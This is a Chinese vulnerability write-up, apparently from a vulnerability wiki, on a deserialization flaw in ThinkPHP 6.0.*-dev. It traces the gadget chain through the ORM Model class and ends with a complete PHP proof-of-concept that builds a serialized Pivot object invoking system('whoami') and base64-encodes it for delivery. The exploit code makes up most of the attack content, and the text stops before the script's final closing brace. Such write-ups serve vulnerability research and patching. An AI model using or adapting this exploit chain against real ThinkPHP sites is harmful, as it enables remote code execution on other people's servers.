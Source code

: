 Thinkphp 6.0.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=6.0.*-dev v6.0

### poc演示截图

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

    //vendor\topthink\think-orm\src\Model.php
    public function __destruct()
    {
        if ($this->lazySave) {  //$this->lazySave可控
            $this->save();
        }
    }
    //vendor\topthink\think-orm\src\Model.php
    public function save(array $data = [], string $sequence = null): bool
    {
        // 数据对象赋值
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
           return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence); //this->exists可控

        if (false === $result) {
           return false;
        }
    //vendor\topthink\think-orm\src\Model.php
    public function isEmpty(): bool
    {
        return empty($this->data);    //可控
    }
    protected function trigger(string $event): bool
    {
        if (!$this->withEvent) {       //可控
            return true;
        }
        ...
    }
    protected function updateData(): bool
    {
        // 事件回调
        if (false === $this->trigger('BeforeUpdate')) {   //可控
           return false;
        }

        $this->checkData();

        // 获取有更新的数据
        $data = $this->getChangedData();  

        if (empty($data)) {         //$data可控
           // 关联更新
           if (!empty($this->relationWrite)) {
             $this->autoRelationUpdate();
           }

           return true;
        }

        if ($this->autoWriteTimestamp && $this->updateTime && !isset($data[$this->updateTime])) {
           // 自动写入更新时间
           $data[$this->updateTime]       = $this->autoWriteTimestamp($this->updateTime);
           $this->data[$this->updateTime] = $data[$this->updateTime];
        }

        // 检查允许字段
        $allowFields = $this->checkAllowFields();
    public function getChangedData(): array
    {
        $data = $this->force ? $this->data : array_udiff_assoc($this->data, $this->origin, function ($a, $b) {
           if ((empty($a) || empty($b)) && $a !== $b) {
             return 1;
           }
        //$this->force可控
           return is_object($a) || $a != $b ? 1 : 0;
        });

        // 只读字段不允许更新
        foreach ($this->readonly as $key => $field) {
           if (isset($data[$field])) {
             unset($data[$field]);
           }
        }

        return $data;
    }
    protected function checkAllowFields(): array
    {
        // 检测字段
        if (empty($this->field)) {   //$this->field可控
           if (!empty($this->schema)) {  //$this->schema可控
             $this->field = array_keys(array_merge($this->schema, $this->jsonType));
           } else {
             $query = $this->db();
             $table = $this->table ? $this->table . $this->suffix : $query->getTable();
    public function db($scope = []): Query
    {
        /** @var Query $query */
        $query = self::$db->connect($this->connection)   //$this->connection可控
           ->name($this->name . $this->suffix)   //$this->suffix可控，采用拼接，调用_toString
           ->pk($this->pk);

后面的链跟之前的一样，这里就不分析了

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId31.png)

### poc v6.0.\*-dev

    <?php
    /**
     * Created by PhpStorm.
     * User: wh1t3P1g
     */

    namespace think\model\concern {
        trait Conversion{
            protected $visible;
        }
        trait RelationShip{
            private $relation;
        }
        trait Attribute{
            private $withAttr;
            private $data;
            protected $type;
        }
        trait ModelEvent{
            protected $withEvent;
        }
    }

    namespace think {
        abstract class Model{
            use model\concern\RelationShip;
            use model\concern\Conversion;
            use model\concern\Attribute;
            use model\concern\ModelEvent;
            private $lazySave;
            private $exists;
            private $force;
            protected $connection;
            protected $suffix;
            function __construct($obj)
            {
                if($obj == null){
                    $this->data = array("wh1t3p1g"=>"whoami");
                    $this->relation = array("wh1t3p1g"=>[]);
                    $this->visible= array("wh1t3p1g"=>[]);
                    $this->withAttr = array("wh1t3p1g"=>"system");
                }else{
                    $this->lazySave = true;
                    $this->withEvent = false;
                    $this->exists = true;
                    $this->force = true;
                    $this->data = array("wh1t3p1g"=>[]);
                    $this->connection = "mysql";
                    $this->suffix = $obj;
                }
            }
        }
    }


    namespace think\model {
        class Pivot extends \think\Model{
            function __construct($obj)
            {
                parent::__construct($obj);
            }
        }
    }


    namespace {
        $pivot1 = new \think\model\Pivot(null);
        $pivot2 = new \think\model\Pivot($pivot1);
        echo base64_encode(serialize($pivot2));
